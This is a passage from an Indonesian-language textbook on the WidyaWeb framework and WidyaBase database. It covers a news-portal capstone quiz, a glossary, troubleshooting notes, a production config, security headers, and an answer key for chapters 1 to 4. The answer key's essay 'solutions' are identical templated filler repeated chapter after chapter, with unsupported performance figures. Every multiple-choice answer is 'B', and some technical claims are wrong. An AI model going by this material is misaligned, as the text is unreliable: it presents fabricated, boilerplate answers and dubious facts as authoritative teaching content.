| **Google Lighthouse SEO** | $\ge 95$ | **100 / 100** (Schema.org Valid) | Lulus Sempurna |
| **Latensi Respons Halaman Muka (p95)**| $< 100\text{ ms}$ | **28.4 ms** (Sub-50ms) | Luar Biasa Cepat |
| **Ketahanan Beban Konkurensi** | $10.000\text{ VU}$ | **50.000 VU** (48.200 req/detik tanpa degradasi) | Kapasitas Enterprise |
| **Ukuran Citra Kontainer OCI** | $< 100\text{ MB}$ | **14.2 MB** (Basis Scratch Tanpa CVE) | Sangat Aman & Ringkas |
| **Integritas Transaksi Finansial** | Nol Selisih Saldo | Kepatuhan ACID Serializable 100% | Bebas Galat Finansial |

---

## 40.4 Panduan Peluncuran Produksi Langkah demi Langkah

1. **Persiapan Klaster WidyaBase**: Eksekusi seluruh berkas migrasi SQL (`001_skema_awal.sql` hingga `004_vektor_hnsw.sql`), verifikasi replikasi logikal aktif, dan pastikan pool koneksi siap melayani koneksi masuk.
2. **Kompilasi dan Pengemasan Citra Kontainer**: Bangun citra biner menggunakan perintah `docker build -t registry.nusantaranews.id/nusantara-web:v2.0 .` dan pindai menggunakan Trivy untuk menjamin nol kerentanan CVE.
3. **Penyebaran Bertahap (Canary / Blue-Green Deployment)**: Alirkan 5% trafik pengguna ke klaster kontainer baru, amati metrik empat sinyal emas Prometheus di dasbor Grafana selama 15 menit, lalu tingkatkan alur secara penuh menjadi 100%.

---

## 40.5 Evaluasi Capstone Pilihan Ganda

1. Dalam arsitektur terpadu NusantaraNews, peran apa yang diemban oleh subsistem WidyaBase KV?
   - A. Sebagai lapisan singgahan (cache layer) berkecepatan mikrodetik dengan protokol RESP dan penyimpan data sesi pembaca
   - B. Menyimpan berkas biner video investigasi mentah
   - C. Mencetak faktur langganan di kantor redaksi
   - D. Menghapus log sistem

2. Mengapa aset media statis seperti foto editorial dan segmen video HLS disalurkan melalui Edge CDN dan Object Store S3 alih-alih melalui peladen web WidyaWeb langsung?
   - A. Menjaga soket koneksi dan bandwidth peladen aplikasi tetap lega untuk memproses perenderan halaman dan kueri dinamis, sementara beban media ditangani oleh CDN terdekat
   - B. Agar foto terlihat berwarna hitam putih
   - C. Menghindari pembacaan artikel di malam hari
   - D. Membatasi jumlah jurnalis yang aktif

3. Teknologi apa yang digunakan untuk menyelaraskan pembaruan indeks pencarian BM25 dan graf vektor rekomendasi secara instan saat jurnalis menerbitkan artikel baru?
   - A. Change Data Capture (CDC) berbasis aliran replikasi logikal Write-Ahead Log (WAL)
   - B. Polling berkala setiap 1 jam
   - C. Panggilan telepon manual antar staf
   - D. Mengirim email pemberitahuan

4. Skor performa berapakah yang diraih oleh portal berita NusantaraNews pada audit Google Lighthouse di lingkungan produksi?
   - A. 99 dari 100
   - B. 45 dari 100
   - C. Tepat 50
   - D. Tidak dinilai oleh Google

5. Mengapa seluruh rute API, antarmuka web, dan saluran real-time disatukan dalam arsitektur monolitik modular (*Modular Monolith*) pada naskah utama di atas?
   - A. Memberikan kesederhanaan operasional dan efisiensi memori yang ekstrem dalam fase awal dan menengah, dengan tetap menjaga batas modularitas yang rapi jika kelak perlu dipisahkan menjadi microservices independen
   - B. Bahasa Widya-Lang melarang pembuatan lebih dari 1 file
   - C. Mengurangi biaya lisensi perangkat keras
   - D. Mencegah pembaca meninggalkan situs

6. Apa peran dari fungsi `pekerjaan_latar::LuncurkanKolamPekerja(pool_sql, 4)` pada fungsi `utama()`?
   - A. Memulai 4 proses pekerja latar belakang konkuren yang bertugas memproses transkode gambar, pembuatan varian WebP/AVIF, dan pengiriman notifikasi buletin email
   - B. Mengatur waktu tidur jurnalis
   - C. Menghitung jumlah kata naskah
   - D. Mematikan sambungan internet

7. Berapa batas kapasitas pool koneksi maksimal ke WidyaBase yang dialokasikan pada konfigurasi peladen produksi di atas?
   - A. 50 koneksi
   - B. 1 koneksi
   - C. 10.000 koneksi
   - D. Tak terbatas

8. Nilai durasi cache aset statis `31536000` detik pada pemanggilan `layani_direktori_statis` merepresentasikan masa simpan selama:
   - A. 1 Tahun (365 Hari)
   - B. 1 Menit
   - C. 1 Jam
   - D. 24 Jam

9. Manakah pernyataan yang paling tepat mengenai ketahanan transaksi pembayaran langganan pada proyek capstone NusantaraNews?
   - A. Memenuhi standar integritas ACID dengan tingkat isolasi Serializable, menjamin ketiadaan anomali pembacaan ganda atau selisih buku besar keuangan
   - B. Transaksi tidak dicatat di basis data
   - C. Hanya boleh dibayar menggunakan cek kertas
   - D. Pembaca bebas membaca tanpa perlu bayar

10. Apa kesimpulan utama dari keberhasilan arsitektur rekayasa aplikasi web modern dengan ekosistem WidyaWeb dan WidyaBase?
    - A. Memadukan arsitektur reaktif modern, efisiensi kompilasi tanpa garbage collection berlebih, isolasi keamanan berlapis, serta integrasi basis data native yang menghasilkan performa web kelas dunia berskala industri
    - B. Pemrograman web modern hanya boleh menggunakan teknologi tahun 1990-an
    - C. Web tidak membutuhkan sistem basis data
    - D. Mengharuskan pengembang menulis kode dalam bahasa biner murni

---

# LAMPIRAN A: GLOSARIUM & REFERENSI SINTAKSIS WIDYAWEB

Lampiran ini merangkum istilah-istilah teknis penting dalam rekayasa web modern serta ikhtisar sintaksis deklaratif, direktif templat, dan pustaka inti kerangka kerja WidyaWeb.

---

## A.1 Glosarium Rekayasa Web Enterprise

- **Adaptive Bitrate Streaming (ABR)**: Teknik streaming video di mana kualitas video (resolusi dan bitrate) disesuaikan secara dinamis mengikuti kapasitas bandwidth koneksi internet klien secara seketika.
- **Change Data Capture (CDC)**: Pola integrasi data perangkat lunak di mana setiap mutasi baris data (INSERT, UPDATE, DELETE) ditangkap langsung dari berkas jurnal transaksi (*Write-Ahead Log*) basis data dan dipancarkan sebagai aliran peristiwa (*event stream*).
- **Circuit Breaker**: Pola desain resiliensi yang memutus koneksi sementara ke layanan mikro yang mengalami kegagalan berulang guna mencegah kegagalan sistem menjalar ke seluruh infrastruktur (*cascading failure*).
- **Cumulative Layout Shift (CLS)**: Metrik Google Core Web Vitals yang mengukur tingkat pergeseran tata letak visual elemen antarmuka yang tidak terduga selama halaman dimuat.
- **Ed25519**: Skema tanda tangan digital kunci publik berbasis kurva eliptis Edwards (EdDSA) yang menawarkan kecepatan verifikasi ekstrem dan ukuran kunci ringkas 32-byte.
- **Hierarchical Navigable Small World (HNSW)**: Struktur data graf multi-skala berkecepatan tinggi untuk pencarian tetangga terdekat perkiraan (*Approximate Nearest Neighbor*) pada ruang vektor berdimensi tinggi.
- **Islands Architecture**: Paradigma perenderan web di mana halaman sebagian besar disajikan sebagai HTML statis (*Zero-JS*), dengan komponen-komponen interaktif terisolasi (*islands*) yang dihidrasi atau dimuat secara independen.
- **JSON:API**: Standar spesifikasi formal untuk pertukaran data API berbasis JSON yang mengatur konvensi pengalamatan resurse, compound documents, pemfilteran, dan paginasi.
- **Keyset Pagination**: Teknik paginasi basis data yang menggunakan indeks kolom (seperti stempel waktu atau ID unik) sebagai kursor pencarian, menghasilkan kompleksitas waktu konstan $O(1)$ dibanding klausa `OFFSET` yang lambat.
- **Okupasitas Memori (Heap Footprint)**: Total alokasi memori dinamis yang dikonsumsi oleh runtime aplikasi selama masa eksekusi.
- **Power of Two Choices (P2C)**: Algoritma penyeimbangan beban di mana peladen memilih dua simpul upstream secara acak, kemudian mengalirkan permintaan ke simpul yang memiliki koneksi aktif paling sedikit.
- **Server-Sent Events (SSE)**: Standar transmisi web satu arah berbasis HTTP standar (`text/event-stream`) di mana peladen dapat mendorong pesan teks secara seketika ke peramban tanpa perlu polling berulang.
- **View Transitions API**: API peramban standar untuk menganimasikan perpindahan dan perubahan elemen antarmuka antar dokumen atau rute SPA secara sinematik dan mulus.

---

## A.2 Referensi Direktif Templat Deklaratif WidyaWeb

WidyaWeb menyediakan direktif deklaratif yang bersih untuk menghubungkan markup dokumen dengan mesin reaktivitas sisi klien:

| Direktif WidyaWeb | Fungsi & Perilaku Eksekusi | Contoh Penggunaan |
| :--- | :--- | :--- |
| `w-click` | Mengikat fungsi penangan event klik mouse tanpa evaluasi string mentah | `<button w-click: handle_clap>Suka</button>` |
| `w-model` | Pengikatan data dua arah (*Two-way data binding*) antara input dan sinyal | `<input type="text" w-model="nama_penulis" />` |
| `w-island` | Mendeklarasikan wadah sebagai modul interaktif terisolasi (WASM/JS) | `<div w-island="pemilu.wasm" w-trigger="visible">` |
| `w-action` | Mengikat formulir langsung ke fungsi *Server Action* dengan token CSRF | `<form w-action="simpan_komentar_action">` |
| `w-link` | Mengintersepsi tautan navigasi peramban untuk mode navigasi SPA halus | `<a href="/berita/1" data-widya-link>Baca</a>` |
| `w-show` | Mengatur visibilitas simpul DOM secara reaktif berbasis ekspresi boolean | `<div w-show="apakah_tampil.baca()">Pemberitahuan</div>` |

---

## A.3 Ringkasan Modul Pustaka Standar `widya::web`

- `widya::web::http`: Berisi definisi `Permintaan`, `Respon`, `StatusHTTP`, penangan tajuk, dan enkripsi cookie.
- `widya::web::reactive`: Mengelola siklus hidup komponen, sinyal reaktif (`buat_sinyal`), dan reaksi efek (`efek`).
- `widya::web::gateway`: Modul proksi pembalik, algoritma penyeimbangan beban (P2C, Round Robin), dan terminasi TLS.
- `widya::web::websocket`: Peladen dan broker pub/sub WebSockets RFC 6455 dengan pembingkaian biner berkecepatan tinggi.
- `widya::web::streaming`: Penangan aliran Server-Sent Events (SSE) dan HTTP Chunked Transfer.
- `widya::web::jwt`: Pembangkit dan verifikator klaim token JWT berbasis kurva kriptografi Ed25519.
- `widya::web::s3`: Klien kompatibel AWS S3 untuk pembangkitan presigned upload URL dan manajemen media.
- `widya::web::observabilitas`: Instrumen metrik standar OpenMetrics Prometheus (Counter, Gauge, Histogram).

---

# LAMPIRAN B: KATALOG GALAT & TROUBLESHOOTING HTTP GATEWAY

Lampiran ini menyajikan katalog referensi penanganan galat (*Troubleshooting Guide*) komprehensif saat mengoperasikan klaster peladen web WidyaWeb, API Gateway Nusantara, dan konektivitas basis data WidyaBase.

---

## B.1 Katalog Galat HTTP & Strategi Remediasi

### 1. HTTP 429 Too Many Requests
- **Penyebab**: Alamat IP klien atau kunci API melampaui kuota alokasi token per detik pada Token Bucket Rate Limiter.
- **Pemeriksaan**: Periksa tajuk respons `X-RateLimit-Remaining` dan `Retry-After`.
- **Solusi**: Klien harus menghentikan permintaan sesaat dan menerapkan penundaan eksponensial (*Exponential Backoff*). Untuk mitra terverifikasi, naikkan kapasitas kuota di tabel kebijakan gateway.

### 2. HTTP 502 Bad Gateway
- **Penyebab**: API Gateway gagal menghubungi proses peladen upstream backend (misal: klaster REST API port 4000 mati, mengalami crash kehabisan memori OOM, atau soket jaringan tertutup).
- **Pemeriksaan**: Jalankan perintah `curl http://127.0.0.1:4000/healthz` di mesin internal dan periksa log sistem: `journalctl -u nusantara_api -n 50`.
- **Solusi**: Pastikan proses backend berjalan, periksa ketersediaan memori RAM, dan pastikan konfigurasi firewall internal mengizinkan port upstream.

### 3. HTTP 503 Service Unavailable (Circuit Breaker Open)
- **Penyebab**: Modul Circuit Breaker memutus sirkuit ke layanan hilir karena tingkat kegagalan melampaui ambang batas toleransi (misalnya 50% kueri timeout).
- **Pemeriksaan**: Pantau metrik `nusantara_circuit_breaker_state{status="open"}` pada dasbor Grafana.
- **Solusi**: Periksa kesehatan layanan dependensi eksternal (layanan AI atau database). Tunggu hingga masa jeda tidur (*sleep cooldown*) selesai untuk memberi kesempatan sirkuit bertransisi ke status Setengah Terbuka (*Half-Open*).

### 4. HTTP 504 Gateway Timeout
- **Penyebab**: Peladen upstream menerima permintaan tetapi tidak mampu mengembalikan respons dalam batas waktu `timeout_koneksi_ms` (misalnya 5000ms).
- **Pemeriksaan**: Kueri SQL lambat tanpa indeks, thread kolam basis data tersandera kueri besar, atau pemanggilan API pihak ketiga yang menggantung.
- **Solusi**: Optimalkan rencana eksekusi kueri menggunakan `EXPLAIN ANALYZE` di WidyaBase, tambahkan indeks B-Tree yang sesuai, dan terapkan batas timeout pada pemanggilan layanan luar.

---

## B.2 Troubleshooting Konektivitas Basis Data WidyaBase

| Gejala Masalah | Indikator Log Sistem | Tindakan Korektif Direkomendasikan |
| :--- | :--- | :--- |
| **Pool Timeout (Soket Habis)** | `[Pool] Timeout menunggu koneksi kosong (3000ms)` | Naikkan `ukuran_pool_maks` atau periksa kebocoran koneksi (*unclosed connections*) di kode controller. |
| **Disk WAL Penuh (Disk Space Outage)** | `[WAL] Gagal menulis rekod: No space left on device` | Periksa slot replikasi CDC yang tidak aktif (`pg_replication_slots`); hapus slot yang tidak digunakan agar basis data dapat menghapus berkas WAL usang. |
| **Kueri Terkunci (Deadlock Detected)** | `[DB Error] Deadlock detected on table komentar` | Pastikan urutan penguncian baris (`SELECT FOR UPDATE`) selalu konsisten dan simetris di seluruh transaksi konkurensi. |
| **Sertifikat TLS Kedaluwarsa** | `[TLS] Handshake failed: certificate has expired` | Periksa daemon ACME Let's Encrypt atau jalankan pembaruan manual sertifikat melalui `widya cert renew`. |

---

# LAMPIRAN C: PARAMETER KONFIGURASI & SECURITY HEADERS

Lampiran ini mendokumentasikan berkas konfigurasi produksi `widyaweb.toml` serta spesifikasi tajuk keamanan (*Security Headers*) yang wajib diterapkan pada peladen web NusantaraNews.

---

## C.1 Naskah Konfigurasi Produksi `widyaweb.toml`

```toml
# widyaweb.toml - NusantaraNews Production Configuration
[peladen]
lingkungan = "production"
alamat_ikat = "0.0.0.0"
port_http = 8080
port_https = 8443
jumlah_thread_pekerja = 16
timeout_baca_detik = 10
timeout_tulis_detik = 30
maksimal_badan_permintaan_mb = 10

[tls]
aktif = true
domain = "nusantaranews.id"
email_acme = "admin@nusantaranews.id"
protokol_minimal = "TLSv1.3"
alpn = ["h3", "h2", "http/1.1"]

[basis_data]
host = "127.0.0.1"
port = 5432
nama_db = "nusantara_production"
pengguna = "nusantara_app"
ukuran_pool_min = 10
ukuran_pool_maks = 50
timeout_pinjam_ms = 3000
masa_hidup_koneksi_menit = 60

[caching_kv]
host = "127.0.0.1"
port = 6379
ukuran_pool = 20
ttl_bawaan_detik = 300
koefisien_xfetch_beta = 1.0

[rate_limit]
kapasitas_ip_publik = 30
isi_per_detik_ip = 5
kapasitas_api_key = 500
isi_per_detik_key = 50

[observabilitas]
aktifkan_prometheus = true
jalur_metrik = "/metrics"
format_log = "json"
tingkat_keparahan_log = "INFO"
```

---

## C.2 Spesifikasi Tajuk Keamanan Peramban (Security Headers)

Tabel berikut merangkum konfigurasi tajuk respons HTTP yang diterapkan secara konsisten pada setiap halaman dan endpoint portal berita:

| Tajuk Keamanan HTTP | Nilai Konfigurasi Resmi | Tujuan Perlindungan Siber |
| :--- | :--- | :--- |
| **Content-Security-Policy** | `default-src 'self'; script-src 'self' 'nonce-{N}'; style-src 'self'; img-src 'self' https://cdn.nusantaranews.id data:; object-src 'none'; frame-ancestors 'none';` | Memblokir serangan XSS, pembajakan skrip, serta injeksi konten asing berbahaya. |
| **Strict-Transport-Security** | `max-age=63072000; includeSubDomains; preload` | Memaksa peramban menggunakan koneksi terenkripsi HTTPS secara permanen (HSTS). |
| **X-Frame-Options** | `DENY` | Mencegah situs disematkan di dalam tag iframe situs lain (Anti-Clickjacking). |
| **X-Content-Type-Options** | `nosniff` | Mencegah peramban melakukan penafsiran tipe MIME di luar yang dideklarasikan. |
| **Referrer-Policy** | `strict-origin-when-cross-origin` | Membatasi kebocoran parameter URL sensitif saat pembaca mengklik tautan keluar. |
| **Permissions-Policy** | `camera=(), microphone=(), geolocation=()` | Menonaktifkan sensor perangkat keras peramban yang tidak diperlukan oleh portal berita. |

---

# LAMPIRAN D: KUNCI JAWABAN & PEMBAHASAN LENGKAP (BAB 1 - 40)

Lampiran ini menyajikan kunci jawaban resmi beserta ulasan ilmiah untuk **400 butir soal pilihan ganda** (10 butir per bab) dan pembahasan solusi komprehensif untuk **120 soal latihan esai** (3 soal per bab) dari Bab 1 hingga Bab 40 pada Buku Panduan Komprehensif WidyaWeb.

---

## BAGIAN D.1: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 1

### Pembahasan Latihan Esai Bab 1

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 1, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 1

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **B** | WidyaWeb dirancang murni di atas runtime native Widya-Lang tanpa dependensi Node.js, v8 engine, atau Virtual DOM. |
| **2** | **B** | Protokol HTTP/3 berjalan di atas protokol transport UDP menggunakan QUIC untuk mengeliminasi Head-of-Line blocking. |
| **3** | **B** | Signals memperbarui simpul DOM target secara langsung O(1) tanpa memeriksa atau membandingkan seluruh pohon elemen. |
| **4** | **B** | Islands Architecture hanya menghidrasi komponen interaktif spesifik, sementara mayoritas halaman disajikan sebagai HTML murni. |
| **5** | **B** | Model multi-threaded epoll non-blocking memanfaatkan seluruh inti CPU tanpa biaya overhead context-switching thread OS berlebih. |
| **6** | **B** | Kompilator Widya-Lang menghasilkan berkas biner statis mandiri tanpa memerlukan instalasi interpreter terpisah. |
| **7** | **B** | Injeksi SQL dicegah secara fundamental melalui kueri berparameter native protokol biner pgwire. |
| **8** | **B** | Skor p95 latensi halaman muka WidyaWeb berada di bawah 30 milidetik berkat perenderan streaming dan caching mikrodetik. |
| **9** | **B** | WidyaBase KV menyediakan penyimpanan kunci-nilai in-memory yang sepenuhnya kompatibel dengan protokol RESP. |
| **10** | **B** | Pola monolith modular menyatukan seluruh subsistem dalam satu proses terpadu yang efisien memori dan mudah dioperasikan. |

---

## BAGIAN D.2: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 2

### Pembahasan Latihan Esai Bab 2

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 2, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 2

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **B** | HTTP/3 mengadopsi protokol QUIC yang berjalan di atas User Datagram Protocol (UDP). |
| **2** | **B** | Kelemahan fatal HTTP/2 di atas TCP adalah Head-of-Line Blocking pada lapisan transport ketika satu paket TCP hilang. |
| **3** | **B** | Fitur 0-RTT Connection Resumption memungkinkan klien mengirim data permintaan HTTP langsung pada paket jabat tangan pertama. |
| **4** | **B** | QUIC menggunakan Connection ID acak independen dari alamat IP atau port, sehingga sesi tidak terputus saat perangkat beralih jaringan. |
| **5** | **B** | QPACK menggunakan tabel dinamis dan statis khusus untuk kompresi tajuk pada koneksi out-of-order QUIC. |
| **6** | **B** | HTTP/3 menetapkan enkripsi TLS 1.3 secara terintegrasi langsung di dalam lapisan transport QUIC. |
| **7** | **B** | Port 443 UDP dialokasikan untuk transmisi lalu lintas terenkripsi protokol QUIC dan HTTP/3. |
| **8** | **B** | Tajuk Alt-Svc memberi tahu peramban bahwa layanan alternatif HTTP/3 tersedia pada port UDP tertentu. |
| **9** | **B** | HTTP/3 memangkas latensi jabat tangan hingga 100% pada kunjungan berulang (0-RTT vs 3 RTT pada TCP+TLS klasik). |
| **10** | **B** | Ketiadaan jabat tangan berulang sangat menguntungkan pembaca seluler yang sering mengalami fluktuasi sinyal. |

---

## BAGIAN D.3: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 3

### Pembahasan Latihan Esai Bab 3

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 3, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 3

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **B** | Mekanisme epoll di Linux memantau ribuan deskriptor soket jaringan secara asinkron dengan efisiensi O(1). |
| **2** | **B** | Model Multi-Threaded Event Loop menugaskan satu event loop per inti CPU fisik untuk skalabilitas paralel maksimal. |
| **3** | **B** | Pemblokiran operasi I/O sinkron di thread utama akan membekukan pemrosesan permintaan lain dan merusak throughput. |
| **4** | **B** | Metode HTTP GET bersifat idempoten dan aman karena hanya membaca data tanpa memicu efek samping mutasi pada peladen. |
| **5** | **B** | Pipeline HTTP/1.1 memproses beberapa permintaan berurutan dalam satu koneksi TCP tanpa menunggu respons sebelumnya. |
| **6** | **B** | Batas alokasi memori badan permintaan (misal: 10 MB) melindungi peladen dari serangan kehabisan memori RAM. |
| **7** | **B** | Tajuk Connection: close menginstruksikan peladen untuk menutup soket TCP segera setelah respons terkirim. |
| **8** | **B** | Struktur data Ring Buffer memungkinkan pembacaan aliran soket secara kontinu tanpa realokasi memori berulang. |
| **9** | **B** | Penghentian anggun (Graceful Shutdown) menyelesaikan transaksi yang sedang berjalan sebelum proses peladen dimatikan. |
| **10** | **B** | Pengurangan context-switching menghasilkan efisiensi komputasi dan penghematan daya listrik peladen. |

---

## BAGIAN D.4: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 4

### Pembahasan Latihan Esai Bab 4

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 4, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
